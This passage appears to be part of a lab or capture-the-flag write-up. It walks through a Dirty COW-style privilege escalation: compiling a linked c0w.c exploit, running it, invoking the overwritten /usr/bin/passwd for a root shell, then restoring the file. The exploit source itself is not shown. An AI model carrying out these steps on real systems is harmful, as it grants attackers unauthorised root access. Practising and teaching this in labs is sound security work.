 [https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)

Download and compile it **using the instructions in the file** <u>**As in, Uncommenting the correct payload!**</u>:

```bash - target
gcc -pthread c0w.c -o c0w
```

Run the exploit:

```bash - target
./c0w
```

Once the exploit is complete, simply execute the 
/usr/bin/passwd binary to get a root shell:

```bash - target
/usr/bin/passwd
```

Restore the original file ==when complete:==

```bash - target
cp /tmp/bak /usr/bin/passwd
```